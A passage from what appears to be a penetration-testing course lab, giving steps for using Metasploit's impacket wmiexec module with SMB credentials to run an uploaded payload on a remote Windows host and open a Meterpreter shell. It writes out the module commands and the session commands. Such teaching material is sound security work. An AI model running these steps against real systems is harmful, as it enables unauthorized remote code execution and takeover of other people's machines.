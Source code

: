     - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:

    ![A screenshot depicts the results of the command.](Images/sessions.PNG)

    - **Note**: After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](Images/sessionid.PNG)
    
    - You now have a **Meterpreter shell**, which we will cover in the next lesson!
